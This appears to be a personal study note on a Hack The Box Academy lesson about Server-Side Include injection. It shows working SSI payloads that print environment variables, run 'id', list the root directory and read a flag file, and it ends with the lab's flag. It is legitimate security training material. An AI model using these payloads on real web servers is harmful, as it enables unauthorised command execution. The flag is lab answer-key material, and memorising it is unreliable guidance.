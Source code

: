 ```yaml
---
sticker: lucide//server-off
---
```

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`



   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
